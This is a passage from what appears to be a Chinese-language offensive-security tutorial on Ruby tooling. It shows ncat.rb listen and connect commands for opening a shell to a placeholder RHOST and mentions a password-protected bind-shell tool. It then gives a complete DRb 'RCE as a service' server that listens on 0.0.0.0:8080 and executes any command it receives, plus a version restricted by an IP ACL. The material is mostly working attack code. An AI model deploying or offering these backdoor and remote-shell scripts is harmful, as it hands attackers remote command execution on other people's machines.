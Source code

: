 +   监听

    ```
    ruby ncat.rb -lvp 443 
    ```

+   连接

    ```
    ruby ncat.rb -cv -r RHOST -p 443 
    ```

## 另一个 Ncat.rb 的实现

再次来自[Hood3dRob1n](https://github.com/Hood3dRob1n/)一个独立的[RubyCat](https://github.com/Hood3dRob1n/RubyCat)，支持绑定 shell 的密码保护。

* * *

# RCE 作为服务

# RCE 作为服务

DRb 允许 Ruby 程序在同一台机器上或通过网络进行通信。DRb 使用远程方法调用（RMI）在进程之间传递命令和数据。

## RCE 服务

```
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join 
```

注意：它适用于所有操作系统平台

`drb`库支持 ACL 以防止/允许特定 IP 地址。例如。

```
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join 
```
